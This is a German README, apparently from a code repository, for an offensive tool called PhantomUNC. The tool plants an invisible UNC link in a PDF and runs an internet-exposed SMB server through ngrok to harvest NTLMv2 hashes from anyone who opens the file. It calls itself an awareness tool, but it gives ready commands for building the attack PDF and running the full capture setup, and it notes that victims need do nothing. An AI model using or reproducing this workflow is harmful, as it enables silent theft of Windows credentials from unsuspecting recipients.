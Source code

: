 # 🕵️ PhantomUNC – PDF & SMB NTLM Trigger Tool

**PhantomUNC** ist ein Schulungs- und Awareness-Tool zur Demonstration von Windows-Netzwerkschwachstellen.  
Es zeigt, wie ein PDF durch einen versteckten **UNC-Link** automatisch einen NTLMv2-Hash auslöst.

---

## 🚀 Features

- 📄 Erstellt eine **PDF-Datei mit einem unsichtbaren UNC-Link**
- 📡 Startet einen **SMB-Server (Impacket-basiert)** zur Aufnahme eingehender Authentifizierungen
- 🌍 **ngrok-Integration**, um SMB über das Internet verfügbar zu machen
- 🧾 Zeichnet **NTLMv2-Hashes in Logdateien** auf
- 📦 Inklusive **.deb-Installer**, PDF-Anleitung & Manpage

---

## 🎯 Beispielhafte Nutzung

### 📄 Nur PDF erzeugen:
```bash
phantomunc --build-pdf -in Original.pdf -out Angriff.pdf -D Output/
```

### 🌐 Komplettsetup: PDF + SMB-Server + ngrok

```bash
phantomunc --build-pdf -in Original.pdf -out Angriff.pdf -D Output/ --run-server --use-ngrok
```
👉 Danach wird eine PDF generiert, die – beim Öffnen – versucht \\<SMB-Host>\share zu erreichen
🧠 Windows schickt dabei NTLMv2-Hashdaten automatisch, ohne dass der Benutzer etwas tun muss.


